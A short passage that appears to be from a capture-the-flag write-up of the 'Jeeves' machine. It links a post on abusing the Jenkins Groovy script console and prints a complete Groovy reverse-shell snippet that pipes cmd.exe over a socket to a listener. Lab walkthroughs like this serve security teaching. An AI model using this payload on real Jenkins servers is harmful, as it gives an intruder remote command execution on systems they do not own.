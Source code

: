 ![](images2/jeeves6.png)

I find [**this link**](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6) which explains how to abuse Groovy Script to get a shell back and links you to the reverse shell code.

```
String host="localhost";

int port=8044;

String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

<br>

## Initial Foothold
